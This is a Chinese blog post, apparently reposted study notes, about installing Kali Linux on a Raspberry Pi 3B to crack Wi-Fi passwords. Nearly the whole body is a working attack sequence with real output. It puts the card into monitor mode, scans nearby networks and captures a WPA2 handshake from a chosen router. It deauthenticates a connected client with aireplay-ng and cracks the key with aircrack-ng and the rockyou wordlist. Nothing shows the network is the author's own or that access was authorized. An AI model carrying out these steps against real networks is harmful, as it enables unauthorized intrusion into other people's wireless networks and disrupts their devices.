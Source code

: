 ```yaml
---
layout: layout
title: 「RaspberryPi」树梅派学习笔记-使用kali破解WIFI
author: 吴楚衡
tags:
  - RaspberryPi
categories:
  - linux
date: 2018-06-14 00:14:00
---
```

#### 1. 说明
 &emsp;树莓派3B已经成为arm主流开发板，不仅有成熟完善的raspbian系统，还可以安装Ubuntu、Centos、Kali系统，因此，树莓派可以做各种各样的事，接下来，我就介绍下树莓派破解Wi-Fi密码的过程。
 
 ---
 <!--more-->
 
 #### 2.安装kali
 &emsp;因为Kali是一个专门的网络渗透系统，自带很多工具，所以就采用直接安装Kali来使用airmon-ng工具。 
下载地址：https://www.offensive-security.com/kali-linux-arm-images/

> 下载下来是kali-2017.3-rpi3-nexmon.img.xz文件。 
> 在Windows下直接使用解压缩软件解压。 
> 在Linux下用 xz -d kali-2017.3-rpi3-nexmon.img.xz 解压。
> 得到的img文件就可以直接使用了，将其写入TF卡即可。

---

#### 3.升级Kali
> 将树莓派插上显示屏和鼠标键盘。 
> 用户：root 
> 密码：toor

``` bash
# 打开Terminal，执行
echo "deb http://mirrors.tuna.tsinghua.edu.cn/kali kali-rolling main contrib non-free" > /etc/apt/sources.list
apt update && apt upgrade -y

# 安装完整版kali
# apt install kali-linux-all

# 安装Extend Filesystem（可选）
# apt install gparted -y

# 安装xrdp [不能插上显示屏使用]
# apt install xrdp
# 开机自启
# update-rc.d xrdp enable
```
---

#### 4.开始破解

> 破解过程如下：
> - 找到设备iwconfig并开启监控
> - 查看附近的Wi-Fi，并选择一个
> - 攻击并开始抓包，得到handshake
> - 下载字典，开始破解

``` bash
# 查看得到网卡名为wlan0：
iwconfig
# 内容如下：
eth0      no wireless extensions.

wlan0     IEEE 802.11  ESSID:off/any  ...

# 找到Wi-Fi代号为wlan0，接着启动monitor模式：
airmon-ng start wlan0

# 查看附近的无线网络
airodump-ng wlan0mon
# 内容如下：
BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID                                             

 F2:B4:29:E5:1C:74   -1        0       20    0   6  -1   OPN              <length:  0>                                      
 94:77:2B:47:92:1C  -74      119     1842   49   7  54e  WPA2 CCMP   PSK  HUAWEI-RF4BXM                                  
 14:75:90:DB:90:91  -81       53        0    0  11  54e. WPA2 CCMP   PSK  TP-LINK_DB9091    

# 选择一个Wi-Fi，复制BSSID，记下CH信道，组合如下命令开始攻击抓包
# [演示选择TP-Link：airodump-ng wlan0mon --bssid 复制的BSSID -c CH信道 -w 保存名]
airodump-ng wlan0mon --bssid 14:75:90:DB:90:91 -c 11 -w wificrack

# 可以看到，有一台设备连接到该路由WiFi，但此时没有设备连入，故抓不到完整4步握手包。
# 若抓不到4步握手，则通过以下命令断开设备与WiFi的连接，使其重新建立连接从而可以抓取四步握手信息：
# 新开一个Terminal窗口：[参数：攻击2次，路由ssid和设备Mac地址]
aireplay-ng -0 2 -a 14:75:90:DB:90:91 -c 54:DC:1D:27:0D:50 wlan0mon

# 原窗口得到握手包：内容如下：
 CH 11 ][ Elapsed: 5 mins ][ 2018-01-29 05:52 ][ WPA handshake: 14:75:90:DB:90:91                                           

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID                                         

 14:75:90:DB:90:91  -71  93     3136       43    0  11  54e. WPA2 CCMP   PSK  TP-LINK_DB9091                                

 BSSID              STATION            PWR   Rate    Lost    Frames  Probe                                                  

 14:75:90:DB:90:91  54:DC:1D:27:0D:50  -39    0e- 0e     0       44  TP-LINK_DB9091 

通过ls wificrack*命令查看抓到的信息保存的文件（多的wpa包是之前做测试保存下来的）：

这里看最新的那个即wifi-04即可，可以看到总共有4个。

# 后面使用Kali Linux中默认存在的字典，目录[需要使用命令来解压]
/usr/share/wordlists/rockyou.txt.zip
# 这里顺便记录一下Kali中几个常用的字典文件的位置：
/usr/share/john/password.lst
/usr/share/wfuzz/wordlist
/usr/share/ wordlists

# 如果没有该文件，就需要下载：
wget http://scrapmaker.com/data/wordlists/dictionaries/rockyou.txt

# 破解：[rockyou.txt是字典、wifi-01.cap是抓包]
aircrack-ng -w rockyou.txt wificrack-01.cap
# 结果如下：[密码为：12345678]
                                 Aircrack-ng 1.2 rc4                                                                        

      [00:00:00] 4/4 keys tested (31.56 k/s)                                                                                

      Time left: 0 seconds                                     100.00%                                                      

                           KEY FOUND! [ 12345678 ]                                                                          
# 关闭wlan0无线网卡monitor mode
airmon-ng stop wlan0mon
```

注:本文转自[树莓派3B+ 破解Wi-Fi密码](https://blog.csdn.net/kxwinxp/article/details/79187472),亲测有效^-^ !!!


 


